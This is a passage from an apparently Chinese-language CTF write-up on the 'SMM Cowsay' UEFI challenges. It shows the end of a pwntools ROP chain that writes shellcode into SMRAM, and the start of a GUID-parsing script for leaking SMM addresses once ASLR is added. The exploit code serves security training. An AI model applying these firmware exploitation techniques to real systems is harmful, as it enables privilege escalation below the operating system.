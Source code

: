```python
    payload += flat(
        [
            pop_rax_rdi_ret,
            u64_ex(smm_shellcode[i * 8 : (i + 1) * 8]),
            0xFFFFFFFF000,
            mov_ptrbx_rax_ret,
            VariableSmm_addr + 0x1000 + (i + 1) * 8,
        ],
        word_size=64,
    )
payload += (
    p64(mov_raxcr3_cr3rax)
    + p64(pop_rdx_rcx_rbx)
    + p64(0x50)
    + p64(0x44440000)
    + p64(Cowsay_addr)
)
payload += p64(VariableSmm_addr + 0x1000)
lianpwn.lg("len(payload)", len(payload))
payload = payload.ljust(400, b"\x90") + p64(longjump_gadget)
```

---
## SMM Cowsay 3

第三问又在第二问的基础上增加了 ASLR，不过刚刚在第二问中我已经尽量减少对固定地址的依赖。这一问就只需要先泄漏 SMM 范围内的地址即可。

第一步借助上面 guid 转换的 python 脚本，改一个遍历核心库 MdePkg 中 GUID 的脚本出来，目标是找到一个基地址位于 SMRAM 范围内的函数：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwn import *
import subprocess
import lianpwn

context.arch = "amd64"
context.log_level = "info"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

file = open("MdeModulePkg.dec", "r")

res_dict = {}

for line in file.readlines():
    if "Guid" in line:
        if "=" in line:
```